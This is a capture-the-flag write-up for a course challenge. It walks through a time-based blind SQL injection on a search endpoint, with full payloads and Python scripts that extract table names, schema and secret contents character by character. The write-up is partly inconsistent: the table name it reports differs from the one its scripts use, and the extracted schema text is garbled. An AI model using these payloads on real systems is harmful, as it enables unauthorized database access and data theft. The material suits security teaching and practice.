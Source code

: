 # Challenge `Sometimes we are just temporarily blind` writeup

- Vulnerability:
  - _Endpoint has a **sql** vulnerability_
- Where:
  - _`/?search=` endpoint_
- Impact:
  - _Allows to **obtain the table content** without having the authority to by making a blind sql injection in the server's search bar_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22262`. After the session is established we will can now start plotting what to do.

Since our objective is to obtain the secret content of a hidden table, we need to find a way to obtain some type of response from the server to know if we are successful or not. Since all queries won't show any type of response visually, we will need to do it blindly. First thing to do is to also find the table's name, and what type of query is being made.
As usual, we will start by making a bad input to see what the server will return. We will use the following payload:

```sql
' badInput
```

After sending the payload, the server returned the following error message:

```sql
[SQL: SELECT id, title, content FROM blog_post WHERE title LIKE '%'badInput%' OR content LIKE '%'badInput%']
```

We checked, and the query used is the same as before. Althought its the same we cannot use the same tatic since it won't be displayed for us to see. We will need to find a way to make the server return a response that we can see.

Before starting to make more difficult queries, we reused the payload used in the previous challenge to see what response we could get. The payload used was:

```sql
_' AND id=1 UNION SELECT 1,tbl_name,3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

There are 4 results! From the previous challenge we know 3 of them: `blog_post`,`user`,`Lorem Ipsum[...]`
So.. There is one more table that we don't know the name of. This is the table we need to find to get the flag.

Now that what we need to do is clear, we can start making more difficult queries. We will start by making a `UNION SELECT` query to find the name of the table we need. The payload used was:

```sql
_' and id=1 UNION SELECT 1,tbl_name,1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '<table_name><char>%' --
```

By iterating through all the characters possible and when matching adding the character to the name, the table name was found to be `secret_blog_post`.

The code used to do this requests was:

```python
def get_table_name():
    all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_"
    table_name = 's'
    #while that repeats until the table name is found
    #keeps on sending requests to the server with new characters to see if they are part of the name
    while True:
        for char in all_chars:
            query = f"/?search=_' and title=1 UNION SELECT 1,tbl_name,1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '{table_name}{char}%' --"
            r = session.get(SERVER + query)
            
            if r.text.find("Found 0 articles") != -1:
                continue
            
            elif r.text.find("Found 0 articles") == -1:
                table_name += char
                print(table_name)
                all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_"
                break
```

Although we have the table name we dont know what the table has, so unfortunately we need to try a different payload to find what the table has. The payload used in each iteration was:

```sql
"nothing' OR ((SELECT hex(substr(sql,<len(content) + 1>,1)) FROM sqlite_master WHERE type='table' and tbl_name ='secret_blog_post' limit 1 offset {offset}) = hex('{format(char)}') AND 1 = randomblob(100000000)) --"
```
Note: The 'nothing' is used so that the other part of the query fails. Randomblob is used to make the server take some more time to respond.

And the python code used to do this requests was:

```python
def get_table():
    table_name='super_s_sof_secrets'
    offset = 0
    content = ''
    all_chars = string.printable
    while True:
        for char in all_chars:
            query= f"nothing' OR ((SELECT hex(substr(sql,{len(content) + 1},1)) FROM sqlite_master WHERE type='table' and tbl_name ='{table_name}' limit 1 offset {offset}) = hex('{format(char)}') AND 1 = randomblob(100000000)) --"
            r = session.get(SERVER +"/?search=" + query)
            
            if r.elapsed.total_seconds() < 1.7:
                continue
            
            else:
                print(r.elapsed.total_seconds())
                print("seconds...")
                content += char
                print("current:" + content)
                break
```

Finaly we were able to see what the table had. The table had the following content:

```sql
CREATE TABLE super_s_sof_secrets (b	id INTEGER9NOT NULL, h	secret TEXT, 
```

Knowing this we can now make our last query to get the flag. The payload used was:

```sql
"nothing' OR ((SELECT hex(substr(secret,{len(content) + 1},1)) FROM {table_name} limit 1 offset {offset}) = hex('{format(char)}') AND 1 = randomblob(100000000)) --"
```

And the python code used to do this requests was:

```python
def get_secret():
    table_name='super_s_sof_secrets'
    offset = 0
    content = ''
    all_chars = string.printable
    while True:
        for char in all_chars:
            query= f"nothing' OR ((SELECT hex(substr(secret,{len(content) + 1},1)) FROM {table_name} limit 1 offset {offset}) = hex('{format(char)}') AND 1 = randomblob(100000000)) --"
            r = session.get(SERVER +"/?search=" + query)
            
            if r.elapsed.total_seconds() < 1.7:
                continue
            
            else:
                print(r.elapsed.total_seconds())
                print("seconds...")
                content += char
                print("current:" + content)
                break
```

Now, we have found the **hidden content of the secret table** and know the secret password, getting the `flag`.

Final Note: The script might differ in results depending on the quality of the connection to the server. Since its based on response time its possible that the server will respond faster or slower depending on the connection. Please try to run the script multiple times if it doesn't work the first time, and if it keeps on not working change the delay time to adequatly fit your connection.

## Script
The script used can be found [here](sometimes_we_are_just_temporarily_blind_poc.py)
